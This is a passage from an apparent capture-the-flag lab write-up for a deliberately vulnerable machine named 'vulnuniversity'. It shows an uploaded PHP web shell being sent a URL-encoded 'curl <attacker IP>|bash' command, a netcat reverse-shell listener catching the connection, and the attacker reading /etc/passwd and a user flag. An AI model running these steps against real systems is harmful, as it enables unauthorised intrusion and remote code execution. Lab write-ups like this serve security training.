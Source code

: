 ```bash
┌──(kali㉿kali)-[~/scripts/www-revshell]
└─$ ls
index.html

┌──(kali㉿kali)-[~/scripts/www-revshell]
└─$ python3 -m http.server 80
```

Url encode `curl 10.11.19.145|bash` with burp

![](/assets/obsidian/e91e7f56fdc3ff6b6d8790750bec1ccc.png)

Send reverse shell

```bash
┌──(kali㉿kali)-[/usr/share/payloadsallthethings/Upload Insecure Files/Extension PHP]
└─$ curl -X GET "http://10.10.60.122:3333/internal/uploads/shell.phtml?cmd=%63%75%72%6c%20%31%30%2e%31%31%2e%31%39%2e%31%34%35%7c%62%61%73%68"
```

Get reverse shell

```bash
┌──(kali㉿kali)-[~/thm]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.60.122] 55362
bash: cannot set terminal process group (1364): Inappropriate ioctl for device
bash: no job control in this shell

www-data@vulnuniversity:/var/www/html/internal/uploads$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@vulnuniversity:/var/www/html/internal/uploads$ cat /etc/passwd|grep sh$
<r/www/html/internal/uploads$ cat /etc/passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
bill:x:1000:1000:,,,:/home/bill:/bin/bash

www-data@vulnuniversity:/var/www/html/internal/uploads$ cd /home/bill
cls
d /home/bill

www-data@vulnuniversity:/home/bill$ ls
user.txt

www-data@vulnuniversity:/home/bill$ cat user.txt
cat user.txt
8bd7992fbe8a6ad22a63361004cfcedb
```
